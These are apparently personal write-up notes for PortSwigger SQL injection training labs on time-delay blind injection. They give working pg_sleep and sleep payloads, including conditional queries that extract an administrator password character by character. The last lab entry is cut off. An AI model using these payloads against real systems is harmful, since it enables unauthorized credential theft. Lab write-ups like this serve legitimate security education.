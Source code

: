 
## LAB - 13
**lab link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays>**

 **Topic :-** 

- Blind SQL injection with time delays.

 **To Solve :-**

- Exploit the SQL injection vulnerability to cause a 10 second delay.

 **Procedure :-**

1. Open any page with track id in zap.
2. If the db type is unknown use different type of sleep function in each database, start with ` ' || (select sleep(10)) || --`, it failed, it measn its not MySQL.
3. Then use ` ' || (select pg_sleep(10)) || --` it worked it means its a postgresql.


## LAB - 14
**lab link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>**

 **Topic :-** 

- Blind SQL injection with time delays and information retrieval.

 **To Solve :-**

- Log in as the `administrator` user.

 **Procedure :-**

1. Open any page with track id in zap.
2. check the time delay by adding  ` ' || pg_sleep(10) -- ` after track id number.
3. Check if the users exist using ` ' || ( select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)-- `, there is time delay means users table exist.
4. Find the length of password using ` ' || ( select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(-1) end from users) --`, iterate untill less then rtt appear which is at 20 means length of password is 20.
5. Now to find the whole password by iterating each char using ` ' || ( select case when (username='administrator' and substr(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users) --`, the ones with over 10 sec rtt are the part of password.
6. Then login with admin credential.


## LAB - 14
**lab link: <https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding>**

 **Topic :-** 

- SQL injection with filter bypass via XML encoding.

 **To Solve :-**

